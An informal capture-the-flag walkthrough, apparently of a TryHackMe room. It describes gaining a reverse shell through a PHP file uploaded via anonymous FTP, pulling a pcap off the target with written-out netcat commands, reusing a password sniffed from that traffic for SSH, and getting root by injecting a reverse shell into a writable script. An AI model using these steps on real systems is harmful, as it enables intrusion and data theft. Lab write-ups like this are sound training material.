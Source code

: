 ok so my old readme got deleted so this is gonna be a little bit of a lazy readme LETS GO

1.) We have been asked by the tompany to perform a penetration test on their system so let's go and nmap scan wahoooo

![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/bf83bffc-d432-42bb-9135-3a8d4defbc4f)

   - We found http, ssh, and ftp open with an anonymous ftp login allowed so let's check that out
   - We can login to ftp as anonymous and retrieve all the files found by doing the following below
   - ![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/c6696ef3-ffa5-4b10-b28d-3138ac1aa1be)
   - After opening the notice.txt file we foound we found a username Maya
     
2.) Lets find hidden directories of the http server using gobuster

![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/03d350c0-7c11-4896-ab42-2aef613e3765)

  - We found the /files directory, let's check it out
  - 
![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/90a7fff2-f131-4ade-9fb8-55386ad6fa11)

   - This looks just like the ftp folder we found earlier, cause it is!
   - This means we might be able to upload a file to the directory via ftp, which could lead to a reverseshell vulnerability
     
![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/24fa843b-baa7-42aa-8235-d316506e8fec)

   - Sweet, we can upload files, let's reverseshell
   - after we run put shell.php we can now run a netcat listener to create a connection
3.) Lets reverse shell

![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/7b6aca87-ea5a-4438-bbd4-0e8007ca0279)

   - We opened a netcat listening and got a connection by clicking on the shell.php file!

![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/03f2ae19-dde7-41bb-9d83-dd480a2e9ddf)

   - Listing the files showed us the answer to the first questions!

4.) Lets ls and see what we can find

![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/d39aa3af-da3c-476a-82e2-5cbc808f66ad)

   - We found a suspicious file which can be opened in wireshark
   - To transfer the file I created another netcat listening instance pointed to the file I wanted by typing nc -l -p (port) > suspicious.pcapng
   - I then ran nc (host ip) (port) < suspicious.pcapng to transfer the file
5.) Let's open it in wireshark now

![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/7631697f-fecc-428e-b27a-16a6fd59bec1)

   - We see a lot of traffic, let's open one of these packets and sniff through the traffic to see what we can find

![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/65fd8229-4247-41e8-80e4-3d562d4ef524)

   - Looks like lennie was trying to privelage escalate and we also found the password

![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/95e6bd5c-a019-49a1-8b63-8dbd359115c4)

   - we can now ssh into the ip using lennie as the username and our found password
   - we found the user.txt flag!
6.) priv escalation time

![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/bfe5a164-faeb-4a66-9bb7-7edc9edea5a3)

   - After checking the privelages of each file I found that planner.sh prints to another bash file called print.sh which lennie has wreite privelages too
   - Above shows me putting a reverseshell bash script into the print.sh file

![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/04adb098-f143-4f62-9fab-1bcb69d6ae49)

![image](https://github.com/JordanPenaloza/TryHackMe/assets/113396128/9c2dd701-f379-44e9-92c4-d1bec6da25a1)

   - After opening a listener for the shell on my machine and running the shell, we got root! and the flag!
   - God this one was frustrating











